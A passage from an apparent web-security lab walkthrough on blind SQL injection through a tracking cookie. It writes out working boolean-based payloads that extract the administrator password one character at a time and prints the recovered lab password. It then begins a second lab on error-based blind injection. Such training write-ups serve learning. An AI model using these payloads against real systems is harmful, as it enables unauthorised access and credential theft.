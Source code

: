I sent it to the intruder and test the length sending all the letters including
“s”:

![img](media/980c3239aff42027bfb12cae0bda93b9.png)

So we know the first letter of the administrator's password is “s” and we can
test the second letter:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,2)='ss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,2)='ss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/49366e11300c2f7f77851217b8570a36.png)

It is better to update just the number of letter and test only one letter every
time:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),2,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),3,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),4,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),5,1)='a
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I continued until retrieving the password “ssmyivfjyj5m1bvch02g”.

12 Blind SQL injection with conditional errors
==============================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and the application does not
respond any differently based on whether the query returns any rows. If the SQL
query causes an error, then the application returns a custom error message.
